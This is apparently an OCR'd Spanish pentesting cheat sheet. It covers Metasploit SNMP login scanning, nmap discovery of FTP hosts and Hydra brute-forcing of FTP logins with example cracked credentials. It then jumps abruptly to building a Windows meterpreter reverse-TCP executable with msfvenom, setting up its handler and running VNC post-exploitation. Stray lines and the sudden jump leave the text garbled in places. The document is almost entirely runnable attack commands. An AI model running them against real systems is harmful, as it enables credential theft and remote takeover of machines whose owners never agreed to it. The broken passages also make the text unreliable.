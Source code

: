 **Validar strings SNMP en Metasploit:**
```bash
use auxiliary/scanner/snmp/snmplogin
set RHOSTS 192.168.1.5
set RPORT 161
run
```
_Ejemplo output:_
```
[+] Valid SNMP login found: public
```

---

## FTP (Puerto 21)

**Descubrir FTP abiertos en toda la red:**
```bash
nmap -p 21 192.168.1.0/24
```
_Ejemplo output:_
```
PORT   STATE SERVICE
21/tcp open  ftp
```

**Bruteforce FTP con Hydra:**
```bash
hydra -l user -P wordlist.txt ftp://192.168.1.10
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P password_list.txt 192.168.1.10 ftp
```
_Ejemplo output:_
```
[21][ftp] host: 192.168.1.10 login: admin password: p@ssw0rd
```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86
-f exe LHOST=10.10.10.11 LPORT=444 -o /root/Desktop/Test.exe

text

### **Configurar handler:**
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.11
set LPORT 444
run

text

### **Post-explotación VNC:**
En meterpreter:
sessions -i 1
sysinfo
run vnc


[^1]: image.jpg